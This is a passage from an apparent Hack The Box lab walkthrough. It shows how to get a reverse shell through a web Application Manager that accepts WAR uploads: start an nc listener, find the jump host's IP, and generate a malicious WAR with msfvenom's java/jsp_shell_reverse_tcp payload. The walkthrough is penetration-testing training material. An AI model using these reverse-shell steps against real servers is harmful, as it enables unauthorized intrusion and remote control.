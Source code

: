 ![[HTB Solutions/CPTS/z. images/d9e91fd0e64b9933fd81cc68fa1604ef_MD5.jpg]]

After logging to the Application Manager, students will notice that they can upload `.WAR` files:

![[HTB Solutions/CPTS/z. images/5774006217bb6714bd4b193b4f28d16f_MD5.jpg]]

Therefore, students need to upload a malicious `.WAR` file that will send them a reverse shell session from the backend server. Students first need to start an `nc` listener that will catch the reverse shell on the jump host:

Code: shell

```shell
nc -nvlp PWNPO
```

```
┌─[htb-student@skills-foothold]─[~]
└──╼ $nc -nvlp 9001

listening on [any] 9001 ...
```

Then, students need to use `msfvenom`, specifying the payload `java/jsp_shell_reverse_tcp`, `LPORT` to be the port that `nc` is listening on (i.e., `PWNPO`), and most importantly, setting `LHOST` to be the IP address of the jump host. To attain the IP address, students need to use the `ip` command and search for the interface having an address of 172.16.1.\*:

Code: shell

```shell
ip a | grep "172.16.1.*"
```

```
┌─[htb-student@skills-foothold]─[~]
└──╼ $ip a | grep "172.16.1.*"

    inet 172.16.1.5/23 brd 172.16.1.255 scope global ens224
```

The `ens224` interface has the IP address `172.16.1.5` in here (thus, it will be utilized as `PWNIP`):

Code: shell

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=PWNIP LPORT=PWNPO -f war -o managerUpdated.war
```

```
┌─[htb-student@skills-foothold]─[~]
└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=9001 -f war -o managerUpdated.war

Payload size: 1090 bytes
Final size of war file: 1090 bytes
Saved as: managerUpdated.war
```
